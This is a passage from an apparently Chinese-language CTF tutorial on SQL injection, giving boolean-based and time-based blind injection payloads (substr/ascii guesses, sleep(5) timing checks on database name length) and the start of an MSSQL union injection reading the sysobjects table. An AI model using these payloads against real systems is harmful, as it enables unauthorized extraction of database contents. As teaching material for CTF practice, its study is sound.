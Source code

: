      `and length(substr((select user from users limit 0,1),1)) = 5 #`

   - **猜解数据内容**

     `and ascii(substr((select user from users limit 0,1),5,1)) = 110 #`



### 基于时间的盲注

#### 1、判断是否存在注入，注入是字符型还是数字型

输入 `1' and sleep(5) #` ，明显延迟；

输入 `1 and sleep(5) #` ，没有延迟；

说明存在字符型的基于时间的盲注。

#### 2、猜解当前数据库名

- 猜解数据名的长度

  ```
  1' and if(length(database()) = 1,sleep(5),1) # 没有延迟
  
  1' and if(length(database()) = 2,sleep(5),1) # 没有延迟
  
  1' and if(length(database()) = 3,sleep(5),1) # 没有延迟
  
  1' and if(length(database()) = 4,sleep(5),1) # 明显延迟
  ```

  说明数据库名长度为4个字符。



操作步骤与基于布尔的盲注类似，稍有不同，加入if（）语句。

基于布尔：`length(database()) = 3`

基于时间：`if(length(database()) = 3,sleep(5),1) #`

同样其余语句操作类似。



[返回目录](#CTF - SQL注入)

------



## Mssql回显注入

### 获取数据库使用：`db_name()`

### 爆出所要数据库的表和内容

1. 每个数据库中都有一个**sysobjects系统表**，通过这个表**读取数据库的表**。

   `and 1=2 union select 1,'2',name,'4',5 from sysobjects where xtype='u'`
